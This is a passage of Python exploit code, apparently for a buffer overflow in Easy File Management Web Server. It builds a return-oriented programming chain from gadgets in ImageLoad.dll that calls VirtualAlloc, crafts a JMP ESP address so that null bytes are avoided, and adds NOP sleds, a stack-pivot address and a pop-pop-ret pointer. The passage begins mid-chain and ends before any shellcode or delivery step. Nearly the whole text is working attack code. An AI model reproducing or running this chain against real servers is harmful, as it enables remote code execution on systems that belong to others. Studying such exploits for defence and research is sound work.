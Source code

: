 ```python
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  #[---INFO:gadgets_to_set_ebp:---]
	  base_ImageLoad_dll + 0x00015442,  # POP EAX # RETN [ImageLoad.dll]
	  0xA445ABCF,						# Since 0x00 would break the exploit, the 0x00457452 (JMP ESP [fmws.exe]) needs to be crafted on the stack
	  0x1001a187,						# ADD EAX,5BFFC883 # RETN [ImageLoad.dll] # finish crafting JMP ESP
	  0x1002466d,						# PUSH EAX # RETN [ImageLoad.dll]
	  base_ImageLoad_dll + 0x0001add7,  # POP EBP # RETN [ImageLoad.dll]
	  #[---INFO:gadgets_to_set_edi:---]
	  base_ImageLoad_dll + 0x00015d89,  # POP EDI # RETN [ImageLoad.dll] 
	  base_ImageLoad_dll + 0x0001a858,  # RETN (ROP NOP) [ImageLoad.dll]
	  #[---INFO:gadgets_to_set_esi:---]
	  base_ImageLoad_dll + 0x0001b0cb,  # POP ESI # RETN [ImageLoad.dll]
	  0x75cf1856, 						# Valloc	  
	  #base_ImageLoad_dll + 0x00021e9d,  # JMP [EAX] [ImageLoad.dll]
	  #base_ImageLoad_dll + 0x00015442,  # POP EAX # RETN [ImageLoad.dll] 
	  #base_ImageLoad_dll + 0x0004d1fc,  # ptr to &VirtualAlloc() [IAT ImageLoad.dll]
	  #[---INFO:pushad:---]
	  base_ImageLoad_dll + 0x000240c2, 	 # PUSHAD # RETN [ImageLoad.dll] 
	  #[---INFO:extras:---]
	  #0x00000000,  # <- Unable to find ptr to 'jmp esp'
	  #0x10002682,
	]
	return ''.join(pack('<I', _) for _ in rop_gadgets)

# [ImageLoad.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\EFS Software\Easy File Management Web Server\ImageLoad.dll)
base_ImageLoad_dll = 0x10000000
rop_chain = create_rop_chain(base_ImageLoad_dll)

junk0 = "\x90" * 80

# Instead of bruteforcing the stack address, let's take an address
# from the .text segment, which is near to the stackpivot instruction:
# 0x1001d89b : {pivot 604 / 0x25c} # POP EDI # POP ESI # POP EBP # POP EBX # ADD ESP,24C # RETN [ImageLoad.dll] 
# The memory located at 0x1001D8F0: "\x7A\xD8\x01\x10" does the job!
# Due to call dword ptr [edx+28h]: 0x1001D8F0 - 28h = 0x1001D8C8
old_call_edx=pack('<L',0x1001D8C8) 


junk1="\x90" * 280
ppr=pack('<L',0x10010101) # POP EBX # POP ECX # RETN [ImageLoad.dll]
```